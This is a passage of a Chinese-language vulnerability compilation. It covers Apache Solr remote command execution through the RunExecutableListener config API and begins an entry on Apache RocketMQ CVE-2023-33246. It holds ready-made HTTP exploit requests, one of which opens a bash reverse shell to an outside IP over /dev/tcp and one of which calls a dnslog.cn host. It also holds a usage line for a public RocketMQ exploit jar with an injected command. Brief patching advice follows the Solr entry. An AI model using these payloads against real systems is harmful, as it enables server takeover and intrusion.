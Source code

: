     
    
    POST /solr/demo/config HTTP/1.1  
    Host: 192.168.1.92:8983  
    Content-Length: 180  
    Content-Type: application/json  
      
    {"add-listener":{"event":"postCommit","name":"suiyi","class":"solr.RunExecutableListener","exe":"bash","dir":"/bin/","args":["-c", "bash -i >& /dev/tcp/192.168.1.92/6666 0>&1"]}}  
      
    

** **通过newSearcher命令执行

    
    
    POST /solr/demo/config HTTP/1.1  
    Host: 192.168.1.92:8983  
    Content-Length: 170  
    Content-Type: application/json  
      
    {"add-listener":{"event":"newSearcher","name":"newSearcher3","class":"solr.RunExecutableListener","exe":"sh","dir":"/bin/","args":["-c", "ping -c 3 x9hr3z.dnslog.cn"]}}  
      
    

 **修复建议**  
如果未使用 ConfigSets API，请禁用 UPLOAD 命令，将系统属性： configset.upload.enabled 设置为 false
，详细参考： https://lucene.apache.org/solr/guide/8_6/configsets-api.html  
使用身份验证/授权，详细参考：https://lucene.apache.org/solr/guide/8_6/authentication-and-
authorization-plu  
gins.html  
官方已发布漏洞补丁及修复版本，请评估业务是否受影响后，酌情升级至安全版本：  
https://github.com/apache/solr/releases/tag/releases/solr/9.2.0

# 15、 **Apache RocketMQ 远程代码执行漏洞**

RocketMQ 5.1.0 及以下版本在一定条件下存在远程命令执行风险。RocketMQ的 NameServer、Broker、Controller
等多个组件暴露在外网且缺乏权限验证，攻击者可以利用此缺陷通过「更新配置」功能修改配置路径，进而以系统用户身份执行任意命令（伪造 RocketMQ
协议也可执行任意命令）。  
 **漏洞标签：** 利用链成熟、涉及重点系统、服务器权限相关、影响范围广  
 **漏洞编号：** CVE-2023-33246  
 **漏洞类型：** RCE  
 **受影响版本：**

  1. 5.0.0 <= Apache RocketMQ <= 5.1.0
  2. 4.0.0 <= Apache RocketMQ <= 4.9.5

 **利用方法：**  
exp  
https://github.com/SuperZero/CVE-2023-33246  
使用方法

    
    
    java -jar CVE-2023-33246.jar -ip "127.0.0.1" -cmd "注入的命令"  
    

 **修复建议**

